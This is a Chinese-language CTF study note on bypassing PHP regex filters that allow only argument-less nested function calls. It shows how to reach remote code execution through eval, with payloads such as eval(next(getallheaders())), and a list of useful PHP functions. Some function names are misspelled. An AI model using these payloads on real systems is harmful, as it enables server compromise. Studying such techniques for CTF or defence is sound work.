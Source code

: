 # 原理
	- 情景
		- 某些题目会使用类似`/[^\W]+\((?R)?\)/`的正则表达式匹配并删除某个字符串中的内容，如果替换结果为`;`则执行原字符串
		- 也就是说，我们可以传入一个类似`aaa(bbb(ccc()));`的字符串并eval
		- 此时我们可以构造特殊的payload进行RCE
	- 比如
		- `pos(localeconv())`的结果是字符串`"."`
		- `var_dump(scandir("."));`可以打印当前文件夹中的内容
		- 我们就可以使用`var_dump(scandir(pos(localeconv())));`通过那个正则的检测并打印当前文件夹的内容
	- RCE
		- 首先想想如何构造任意字符串
			- 可以从headers中拿到：`next(getallheaders())`
				- 这样可以拿到最后一个header字段
				- 如果你想拼运气的话，可以使用array_rand随机拿一个header字段
			- 可以考虑拿GET/POST参数
		- 然后传给system函数即可
- # 常用函数
	- ```
	  scandir 
	  var_dump 
	  show_source 
	  localtime 
	  time 
	  current 
	  chr 
	  pos 
	  end 
	  next 
	  prev 
	  array_reverse 
	  readfile
	  array_flip
	  array_rand
	  array_reverse
	  file_get_contents
	  ```
- # 常见payload
	- ```
	  点
	  pos(localeconv())
	  next(str_split(zend_version()))
	  1
	  end(str_split(hebrevc(crypt(next(hash_algos())))))
	  
	  chr(ord(crypt(serialize(array()))))
	  
	  Ua
	  next(getallheaders())
	  
	  eval
	  eval(implode(reset(get_defind_vars())))
	  eval(next(getallheaders()))
	  ```
- # 绕过
	- 如果正则支持函数名使用任意字符的话，可以使用PHP的动态函数调用技巧
	- 参考： [[CTF/WP/极客大挑战 2020 Roamphp4-Rceme]]
- # 其他知识点
	- ```
	  readfile()[readgzfile()]
	  读取文件并写入到输出缓冲。
	  highlight_file()[别名：show_source()]
	  语法高亮一个文件
	  scandir()
	  列出指定路径中的文件和目录
	  direname()
	  给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名。
	  2/19
	  getcwd()
	  取得当前工作目录。
	  chdir($directory)
	  将 PHP 的当前目录改为 directory。
	  读取环境变量
	  get_defined_vars()
	  此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义
	  的变量。
	  getenv
	  获取一个环境变量的值
	  localeconv()
	  返回一包含本地数字及货币格式信息的数组,第一个值一直是.
	  phpversion()
	  获取当前的 PHP 版本
	  zend_version()
	  获取当前的 zend 版本（配合 str_split()割出点）
	  会话
	  session_id
	  获取/设置当前会话 ID
	  session_start
	  启动新会话或者重用现有会话
	  ```
-
